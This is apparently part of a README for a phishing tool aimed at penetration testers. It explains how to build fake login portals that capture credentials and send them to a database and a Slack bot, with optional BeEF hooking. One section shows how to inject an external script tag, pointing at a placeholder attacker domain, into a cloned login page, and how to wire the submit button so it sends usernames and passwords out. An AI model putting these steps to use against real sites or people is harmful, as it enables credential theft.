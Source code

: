 4) Use HTTPS (Let's Encrypt!) and a Domain for the Hosted API (Coming soon to Docker automagically!)

5) Optionally run Responder and BeEF in a screen session (Coming soon to Docker!)

Enjoy! :)



# 1) To Use the API for Capturing Credentials from Fake Sites : 

Rapid & Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!

<p align="center">
<img src="https://i.imgur.com/MKlHy2k.png" width="60%"><br />
<b>Figure 1: Choose "Fake Portal" From API Options</b>
<br/><br/></p>

<p align="center">
<img src="https://i.imgur.com/UfxzTHQ.png" width="80%"><br />
<b>Figure 2: Choose a Pre-Designed Generic Portal for Landing Page</b>
<br/><br/></p>

<p align="center">
<img src="https://i.imgur.com/V9GOCZ9.png" width="60%"><br />
<b>Figure 3: Fill Out API Details for Landing Page HTML and Optionally Include Your Own Logo</b>
<br/><br/></p>

<p align="center">
<img src="https://i.imgur.com/4MD7kq5.png" width="70%"><br />
<b>Figure 4: Download Automatically Created Source HTML to Host on a Standalone Server</b>
<br/><br/></p>

<p align="center">
<img src="https://i.imgur.com/E7ZLcam.png" width="90%"><br />
<b>Figure 5: The Hosted Site's Contents</b>
<br/><br/></p>

## OR

<b>If you don't wish to use a pre-populated landing page template or one doesn't exist that you would like to use, feel free to create or clone your own.  Simply : </b><br><br>

1) Add the external script source in the `<head>` element

	`<script src="https://YOUR_PHISHAPI_URL.com/APICredentialFormSubmit.js"></script>`

2) Change or add an "onclick" attribute to the submit button for the login form and fill out the arguments

	`<button onclick="SubForm('PhishAPI_URL_HERE','NAME/ID_OF_LOGIN_FORM','PROJECT_NAME','SLACK_BOT_NAME','SLACK_EMOJI','USER_FIELD_NAME/ID','PASS_FIELD_NAME/ID','SOURCE_URL_HERE','CSRF_TOKEN_HERE')">Submit!</button>`
	